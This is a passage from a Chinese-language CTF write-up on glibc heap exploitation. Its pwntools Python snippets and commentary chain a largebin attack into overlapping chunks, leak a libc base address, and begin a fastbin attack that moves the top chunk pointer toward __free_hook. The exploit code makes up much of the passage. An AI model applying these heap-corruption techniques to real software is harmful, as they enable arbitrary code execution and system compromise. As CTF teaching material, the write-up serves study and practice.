 ```python
chunk2=p64(0)
chunk2+=p64(0)
chunk2+=p64(0x411)
chunk2+=p64(0)
chunk2+=p64(0)
chunk2+=p64(chunk1_addr)
edit(3,chunk2)

edit(1,p64(0)+p64(chunk1_addr))
edit(9,p64(victim_addr)+p64(0)*16+p64(0x400)+p64(0x401))
# do not ignore the size align
# ==============================

dele(5)
dele(3)
add(0x3e0)  # 3 and we get a largebin overlapped

# now fill the chunk to leak the libc address
# add (or unlink) a chunk to flush the fd to main_arena
edit(3,'a'*0x30+'b'*8)
add(0x60)   # 5
#gdb.attach(p)

# congratulations :)
show(3)
rv("bbbbbbbb")
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4be8
log.info("chunk base is "+hex(libc_base))


```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>成功leak出来了之后我们也得到了overlapping的chunk，这时候我们就可以随意修改堆块内部的重叠堆块的内容了，这里我们使用**fastbin attack修改top chunk指针，使之指向\_\_free_hook的上面内容不为零的地方（使top chunk的size足够大）**，然后多分配几个大堆块最终\__free_hook被堆块覆盖，填充堆块内容就可以修改__free_hook。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么怎么把fastbin分配到top指针上去呢？在main_arena的区域，有一个存储fastbin链表的数组fastY[]，如果我们先free一个fastbin，然后修改他的fd指针为0x60,malloc一次之前的fastbin，这个fastbin的fd指针就会被放入fastbin list中（但我们不会傻到再malloc一次这样就报错了），也就是修改了fastY数组相应位置的链表数据，这时候main_arena中就出现了0x60，然后我们就可以分配一个0x60大小的fastbin上去，绕过size检查，top指针也被包裹在了这个fastbin中，这样我们就可以修改top指针到任意地址了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>利用largebin attack造成的chunk overlapping我们可以轻易的做到这一点：</font></br>

```python
# now let's work on the fastbin attack
dele(6)
dele(4)

# here the 'fill' is used to avoid destorying the
# previous data
fill=p64(0)*6
fill+=p64(0x81)
fill+=p64(libc_base+0x3c4be8)
fill+=p64(chunk_base+0x280)
fill+=p64(0)*3+p64(0x411)
fill+=p64(0)*2+p64(chunk_base+0x98)
fill+=p64(0)*5

# then we fake the fd pointer
# and malloc a chunk to change the fastY[]
payload=fill
payload+=p64(0x80)*2
payload+=p64(0x60)

edit(3,payload)

add(0x60) # 4
```